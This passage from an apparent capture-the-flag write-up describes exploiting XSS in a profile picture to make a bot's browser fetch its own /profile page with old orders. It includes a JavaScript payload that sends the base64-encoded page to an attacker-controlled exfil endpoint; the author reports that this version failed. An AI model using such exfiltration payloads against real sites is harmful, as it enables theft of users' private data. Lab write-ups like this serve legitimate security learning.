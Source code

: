 After waiting for a bit, we would eventually get a callback using this method:

<figure><img src="../../.gitbook/assets/image (3540).png" alt=""><figcaption></figcaption></figure>

There was mention of 'old orders' being used, so I wanted to see if we could steal page contents via XSS. The stealing of cookies won't work in this case since the `Set-Cookie` header had the `httponly` value, so stealing pages is the only other method.

To do this, we can create a Flask server to redirect the bot to other pages. The `/profile` endpoint had an Order History record at the bottom:

<figure><img src="../../.gitbook/assets/image (562).png" alt=""><figcaption></figcaption></figure>

So the exploit path is to redirect the bot to their own `/profile` directory and view their old orders via injecting Javascript code into our profile picture.

I tried it with this payload:

```javascript
var url = "http://10.129.90.108/profile";
var attacker = "http://10.10.14.34:8000/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

The above payload doesn't work, but we can at least confirm that page stealing is the way to go:

<figure><img src="../../.gitbook/assets/image (1963).png" alt=""><figcaption></figcaption></figure>
